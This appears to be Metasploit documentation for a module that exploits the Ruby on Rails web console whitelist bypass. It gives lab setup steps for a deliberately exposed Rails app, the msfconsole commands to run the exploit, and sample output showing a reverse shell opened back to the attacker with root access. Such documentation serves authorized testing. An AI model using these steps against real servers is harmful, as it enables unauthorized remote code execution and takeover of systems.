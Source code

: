 ## Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x. This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps

**Prerequisites:**

```
gem install rails -v 4.2.6
rails new taco
cd taco
vim config/environments/development.rb
```

Add the following line just before the final `end' tag:
  ```config.web_console.whitelisted_ips = %w(0.0.0.0/0)```

```
bundle
rails server
```

**Installing nodejs:**

```
sudo apt-get install nodejs
```

**Launch msfconsole:**

1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [Port]```
4. Do: ```run```

## Sample Output

### Rails version 4.2.6

```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)
```
